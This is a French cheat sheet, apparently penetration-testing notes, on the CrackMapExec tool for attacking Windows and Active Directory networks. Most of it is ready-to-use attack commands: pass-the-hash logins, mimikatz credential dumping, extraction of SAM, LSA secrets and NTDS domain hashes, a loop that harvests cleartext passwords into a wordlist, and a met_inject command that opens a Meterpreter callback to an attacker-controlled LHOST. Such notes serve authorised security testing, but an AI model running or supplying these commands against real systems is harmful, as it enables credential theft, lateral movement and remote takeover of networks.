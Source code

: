 ## crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html](https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html) et les suivants


### nouvelle version (4)

Il faut préciser le protocole à utiliser.

Exemples :

`crackmapexec smb 192.168.1.1 -d domain.local -u admuser -p 'P@ssw0rd'`
`sudo crackmapexec smb 192.168.5.4 -d domain.local -u admuser -p 'P@ssw0rd' -M mimikatz`
`crackmapexec mssql 192.168.1.1 -d domain.local -u admuser -p 'P@ssw0rd' -q 'SELECT @@version'`
`crackmapexec mssql 192.168.2.3 -d domain.local -u admuser -p 'P@ssw0rd' --port 53757 -q 'SELECT name FROM master..sysdatabases;'`


### one-line sweeties

Extract all clear-text passwords from domain (to fill a wordlist).

```
for f in ~/.cme/workspaces/default/{smb,mssql}.db ; do sqlite3 "$f"  <<< 'select password from users where credtype = "plaintext";' ; done | sort -u
```



### old releases (2 et 3)

#### recon

`crackmapexec 192.168.0.0/24`

#### exploit

avec un mot de passe :
`crackmapexec <ipVictime> -d <domain|hostname> -u <username> -p <password> <commande>`
Ou via le hash :
`crackmapexec <ipVictime> -d <domain|hostname> -u <username> -H <lmHash:ntHash> <commande>`

Commandes utiles avec des droits utilisateurs :

* `--users`
* `--sessions` : semble nécessiter des droits admin avec certains systèmes
* `--shares`

Commandes utiles avec des droits administrateurs :

* `--lusers` : logons users
* `--uac`
* `--sam` : base SAM locale
* `--lsa` : secrets LSA (peut contenir des mots de passe en clair)
* `--ntds drsuapi` : Récupère les hashs des comptes d'ordinateurs et d'utilisateurs de l'annuaire AD

Exemples :

`sudo crackmapexec 172.16.32.14 -d . -u Administrateur -H d8496c706d9f540ceef6a253d3dc45a0 -M mimikatz`
`sudo crackmapexec 172.16.32.14 -d . -u Administrateur -H d8496c706d9f540ceef6a253d3dc45a0 -M met_inject -o LHOST=172.16.41.230 LPORT=8443`

